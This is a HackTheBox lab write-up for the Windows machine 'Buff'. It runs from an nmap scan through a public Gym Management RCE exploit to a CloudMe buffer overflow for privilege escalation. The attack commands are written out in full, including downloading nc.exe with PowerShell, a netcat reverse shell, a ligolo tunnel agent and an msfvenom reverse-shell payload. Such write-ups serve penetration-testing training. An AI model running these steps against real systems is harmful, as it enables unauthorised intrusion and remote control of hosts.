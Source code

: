 ```yaml
---
title: "Buff - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - easy
  - windows
toc: true
hide_title: true
excerpt: ""
sidebar:
        nav: "menu_writeups"
---
```


## Buff
![](https://kar0nx.github.io/assets/images/writeup/093f9f313b10d6e1dc4668d6c8485761.png)
## Reconnaissance

IP: 10.10.10.198
## NMAP

```
nmap -T4 -p- -A 10.10.10.198
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-11 13:16 UTC
Nmap scan report for 10.10.10.198
Host is up (0.030s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE    VERSION
7680/tcp open  pando-pub?
8080/tcp open  http       Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-title: mrb3n's Bro Hut
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 10|2019 (97%)
OS CPE: cpe:/o:microsoft:windows_10 cpe:/o:microsoft:windows_server_2019
Aggressive OS guesses: Microsoft Windows 10 1903 - 21H1 (97%), Microsoft Windows 10 1909 - 2004 (91%), Windows Server 2019 (91%), Microsoft Windows 10 1803 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 8080/tcp)
HOP RTT      ADDRESS
1   29.55 ms 10.10.14.1
2   29.64 ms 10.10.10.198

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 155.42 seconds
```

## Website
### Site

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250911151741.png)

in contact page I discover that page was made using Gym Management Software 1.0

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250911151845.png)

searching for exploits I found few RCE looks promising
https://www.exploit-db.com/exploits/48506

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250911152036.png)

```
python2 gym.py http://10.10.10.198:8080/
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250911152538.png)

Great now let's make a reverse shell

```
powershell -c iwr "http://10.10.14.8/nc.exe" -o "nc.exe"

nc.exe 10.10.14.8 443 -e cmd
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250911153518.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250911153537.png)

Take first flag and let's contiune.
## Privilege Escalation

Searching around I found cloudme 1.11.2 app and checking in google I spot buffer overflow exploit
https://www.exploit-db.com/exploits/48389

```
tree /f /a
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250911160259.png)

Now we need to locate this application on target system

```
netstat -ano | findstr TCP | findstr ":0"
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250911160655.png)

and we got it on port 8888
so we need to port forward to this port, I will user ligolo as always

on kali start
```
./proxy -selfcert
```

on target, download and run agent
```
iwr "http://10.10.14.8/agent.exe" -o "agent.exe"
.\agent.exe -connect 10.10.14.8:11601 -ignore-cert
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250911164454.png)

back to ligolo set session add tunnel and route
```
session   #1
ifcreate --name ligolo0
tunnel_start --tun ligolo0
route_add --name ligolo0 --route 240.0.0.1/32
route_list
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250911164439.png)

We are connected so let's back to exploit.
Generate reverse shell

```
msfvenom -a x86 -p windows/shell_reverse_tcp lhost=10.10.14.8 lport=443 -b '\x00\x0A\x0D' -f python -v payload
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250911164339.png)

in exploit replace target (we have tunnel on 240.0.0.1) and payload 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250911164408.png)

start listener and run script.

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250911164233.png)

We have administrator shell. Now get your root.txt